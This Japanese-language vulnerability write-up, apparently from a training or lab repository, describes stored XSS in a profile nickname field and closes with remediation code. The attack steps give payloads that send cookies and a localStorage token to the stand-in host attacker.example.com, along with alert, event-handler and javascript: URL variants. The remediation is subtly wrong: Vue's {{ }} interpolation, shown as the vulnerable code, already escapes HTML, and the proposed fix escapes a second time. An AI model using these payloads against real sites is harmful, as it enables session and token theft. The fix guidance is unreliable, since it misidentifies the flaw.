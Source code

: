 # プロフィール表示機能のXSS

## 脆弱性の説明
プロフィールのニックネーム表示で、ユーザー入力を適切にエスケープせずに表示しているため、クロスサイトスクリプティング（XSS）が可能です。

## 影響範囲
- 悪意のあるスクリプトの実行
- ユーザーセッションの盗取
- 不正な操作の実行

## 攻撃方法と手順

### 1. 基本的なXSS攻撃

1. アプリケーションにログインします
2. プロフィール更新ページにアクセスします
3. ニックネームフィールドに以下のXSSペイロードを入力します：
   ```html
   <script>alert('XSS攻撃が成功しました！');</script>
   ```
4. 更新ボタンをクリックします
5. プロフィールページにアクセスすると、アラートダイアログが表示されます

### 2. クッキー盗取攻撃

1. アプリケーションにログインします
2. プロフィール更新ページにアクセスします
3. ニックネームフィールドに以下のXSSペイロードを入力します：
   ```html
   <img src="x" onerror="fetch('https://attacker.example.com/steal?cookie='+encodeURIComponent(document.cookie))">
   ```
   または
   ```html
   <script>
   fetch('https://attacker.example.com/steal?token='+encodeURIComponent(localStorage.getItem('token')))
   </script>
   ```
4. 更新ボタンをクリックします
5. プロフィールページにアクセスすると、バックグラウンドでトークン情報が攻撃者のサーバーに送信されます

このペイロードは、ユーザーのクッキーやローカルストレージに保存されたトークンを攻撃者のサーバーに送信しようとします。実際の攻撃では、攻撃者が制御するサーバーのURLを使用します。

### 3. イベントハンドラを使用したXSS攻撃

1. アプリケーションにログインします
2. プロフィール更新ページにアクセスします
3. ニックネームフィールドに以下のXSSペイロードを入力します：
   ```html
   <div onmouseover="alert('マウスオーバーでXSS攻撃が実行されました！')">プロフィール情報</div>
   ```
   または
   ```html
   <a href="javascript:alert('リンククリックでXSS攻撃が実行されました！')">プロフィールリンク</a>
   ```
4. 更新ボタンをクリックします
5. プロフィールページにアクセスし、要素にマウスオーバーするかリンクをクリックすると、アラートダイアログが表示されます

## 攻撃成功の確認手順

### 1. 基本的なXSS攻撃の確認

1. 上記の基本的なXSSペイロードを使用してプロフィールを更新します
2. プロフィールページにアクセスします
3. アラートダイアログが表示されれば、XSS攻撃が成功しています

### 2. コンソールログでのXSS確認

1. ブラウザの開発者ツールを開きます（F12キー）
2. 「Console」タブを選択します
3. 以下のXSSペイロードを使用してプロフィールを更新します：
   ```html
   <script>console.log('XSS攻撃が成功しました！');</script>
   ```
4. プロフィールページにアクセスします
5. コンソールに「XSS攻撃が成功しました！」というメッセージが表示されれば、XSS攻撃が成功しています

### 3. DOM操作の確認

1. 以下のXSSペイロードを使用してプロフィールを更新します：
   ```html
   <script>document.body.style.backgroundColor = 'red';</script>
   ```
2. プロフィールページにアクセスします
3. ページの背景色が赤に変わっていれば、XSS攻撃が成功しています

## 対策方法
### 1. エスケープ処理の実施
```javascript
// ユーティリティ関数の作成
function escapeHtml(text) {
  return text
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}

// コンポーネントでの使用
export default {
  computed: {
    safeNickname() {
      return escapeHtml(this.user.nickname);
    }
  }
}
```

### 2. v-textディレクティブの使用
```vue
<!-- 修正前（脆弱なコード） -->
<template>
  <div>{{ user.nickname }}</div>
</template>

<!-- 修正後（安全なコード） -->
<template>
  <div v-text="safeNickname"></div>
</template>
```
